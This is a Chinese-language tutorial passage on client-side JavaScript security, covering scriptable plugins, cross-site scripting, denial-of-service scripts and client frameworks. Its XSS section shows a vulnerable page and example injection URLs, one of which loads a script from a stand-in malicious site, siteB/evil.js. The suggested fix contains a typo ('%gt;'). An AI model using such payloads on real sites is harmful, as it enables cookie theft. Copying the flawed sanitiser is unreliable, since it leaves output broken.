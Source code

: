 脚本化ActiveX控件和插件的能力也存在着安全性的问题。例如，Java applet具有访问底层网络的能力。Java安全“沙箱”阻止applet和载入它的服务器之外的任何服务器进行通信，因此，这并未打开一个安全漏洞。但是，它暴露了一个根本问题：如果插件是可以脚本化的，我们不仅要无条件相信Web浏览器的安全架构，还要相信插件的安全架构。实际上，Java和Flash插件看上去具有健壮的安全性，并且不会为客户端JavaScript引来安全问题。然而，ActiveX脚本化有着更加糟糕的历史遗留问题。IE浏览器已经能够访问各种各样的脚本化ActiveX控件，而这些控件是Windows操作系统的一部分，并且在过去，操作系统还存在很多可被控件利用的安全漏洞。

#### 5. 跨站脚本

跨站脚本（`Cross-site scripting`），或者叫做XSS，这个术语用来表示一类安全问题，也就是攻击者向目标Web站点注入HTML标签或者脚本。防止XSS攻击是服务器端Web开发者的一项基本工作。然而，客户端JavaScript程序员也必须意识到或者能够预防跨站脚本。

如果Web页面动态地产生文档内容，并且这些文档内容是基于用户提交的数据的，而并没有通过从中移除任何嵌入的HTML标签来“消毒”的话，那么这个Web页面很容易遭到跨站脚本攻击。来看一个小例子，考虑如下的Web页面，它使用JavaScript通过用户的名字来向用户问好

```html
<script>
var name = decodeURIComponent(window.location.search.substring(1)) || '';
document.write('Hello ' + name);
</script>
```

这两行脚本使用`window.location.search`来获得它们自己的URL中以“`?`”开始的部分。它使用`document.write()`来向文档添加动态生成的内容。这个页面专门通过如下的一个URL来调用

```html
http://www.example.com/greet.html?David
```

这么使用的时候，它会显示文本“Hello David”。但考虑以下，当用下面的URL来调用它，会发生什么情况

```html
<!-- %3C和%3E是尖括号的编码 --> 
http://www.example.com/greet.html?%3Cscript%3Ealert('David')%3C/script%3E
```

只用这个URL，脚本会动态生成另一个脚本。在这个例子中，注入的脚本只显示一个对话框，这还是相对较好的情况。但是，如果考虑以下的情况

```html
http://siteA/greet.html?name=%3Cscript src=siteB/evil.js%3E%3C/script%3E
```

之所以叫做跨站脚本攻击，就是因为它涉及多个站点。站点B（或者站点C）包含一个专门构造的到站点A的链接，它会注入一个来自站点B的脚本。脚本`eval.js`驻留在恶意站点B中，但现在，它嵌入到站点A中，并且可以对站点A的内容进行任何想要的操作。它可能损坏这个页面或者使其不能正常工作。这可能会对站点A的用户带来不少坏处。更危险的是，恶意脚本可以读取A所存储的cookie（可能是统计数据或者其他的个人验证信息），然后把数据发送回站点B。注入的脚本甚至可以诱骗用户击键并将数据发送回站点B。

通常，防止XSS攻击的方式是，在使用任何不可信的数据来动态创建文档内容之前，从中移除HTML标签。可以通过添加如下一行代码来移除尖括号，从而修复前面给出的`greet.html`文件

```js
name = name.replace(/</g, '&lt;').replace(/>/g, '%gt;');
```

HTML5的内容安全策略则更进一步，它为`<iframe>`元素定义了一个sandbox属性。在实现之后，它允许显示不可信的内容，并自动禁用脚本。

#### 6. 拒绝服务攻击

这里描述的同源策略和其他的安全限制可以很好地预防恶意代码毁坏数据或者防止侵犯隐私这种问题。然而，它们并不能防止另外一种攻击：拒绝服务攻击，这种攻击手法非常暴利。如果访问了启用JavaScript功能的一个恶意Web站点，这个站点可以使用一个`alert()`对话框的无限循环占用浏览器，或者用一个无限循环或没有意义的计算来占用CPU。

某些浏览器可以检测运行时间很长的脚本，并且让用户选择终止它们。但是恶意脚本可以使用`window.setInterval()`这样的方法来占用CPU，并通过分配很多的内存来攻击你的系统。Web浏览器并没有通用的方法来防止这种笨重的攻击手法。实际上，由于没有人会返回一个滥用这种脚本的网站，因此这在Web上不是一个常见的问题。

---

### 六、客户端框架

一些Web开发者发现基于客户端框架或类库来创建它们的Web应用非常便捷，从某种意义上来讲类库也是框架，它们对Web浏览器提供的标准和专用API进行了封装，向上提供更高级别的API，用以更高效地进行客户端变成开发。一旦使用一个框架，就要用框架定义的API来写代码，使用框架的一个明显的好处是高级的API可以用更简洁的代码完成更复杂的功能。此外，完善的框架也会帮我们处理上文提到的很多兼容性、安全性和可访问性问题。

---

### 参考文献

1. [《JavaScript权威指南（第6版）》]()
